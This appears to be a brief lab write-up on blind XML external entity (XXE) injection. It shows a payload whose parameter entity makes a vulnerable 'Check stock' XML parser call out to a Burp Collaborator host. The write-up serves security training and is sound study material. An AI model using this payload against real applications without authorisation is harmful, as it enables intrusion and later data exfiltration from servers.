



# Blind XXE with out-of-band interaction via XML parameter entities
# Objective
This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.\
To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

# Solution
## Analysis
Application has a `Check stock` feature. Data from client to server is sent in XML format.

||
|:--:| 
| *Check stock request* |

## Exploitation
The XML parameter injection (out-of-band request) can be performed using the following payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://<id>.oastify.com"> %xxe; ]>
<stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

||
|:--:| 
| *XML parameter injection - out-of-band request* |
||
| *XML parameter injection - out-of-band request* |
